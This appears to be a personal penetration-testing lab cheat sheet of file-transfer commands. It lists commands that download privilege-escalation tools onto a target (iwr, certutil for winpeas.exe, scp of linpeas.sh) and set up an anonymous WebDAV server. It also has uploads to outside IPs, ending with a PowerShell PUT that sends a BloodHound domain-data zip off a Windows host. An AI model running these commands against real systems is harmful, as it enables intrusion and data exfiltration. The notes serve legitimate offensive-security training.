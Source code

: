 # HFS
```
iwr -uri http://192.168.45.101/hfs.exe -o hfs.exe
```

# wsgidav
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/oscp_lab/assembling_pieces/beyond/
```
#### mounting shares
```
net use Z: http://192.168.45.159
```

```
curl -T /path/to/local/file http://192.168.45.159/path/on/share/
```

```
curl -T /path/to/local/file http://192.168.45.159/path/on/share/ --user username:password
```

```
$webClient = New-Object System.Net.WebClient
$webClient.UploadFile("http://192.168.45.159/path/on/share/remote_filename", "PUT", "C:\local\file.txt")
```


# iwr 
```
iwr -uri http://ip -o output.exe
```

```
certutil -urlcache -split -f "http://192.168.49.125/winpeas.exe"
```

# SCP
```
scp -P 32826 linpeas.sh student@192.168.211.52:/tmp
```

$webClient = New-Object System.Net.WebClient
$webClient.UploadFile("http://192.168.45.244", "PUT", "C:\Users\web_svc\test_20250720023617_BloodHound.zip")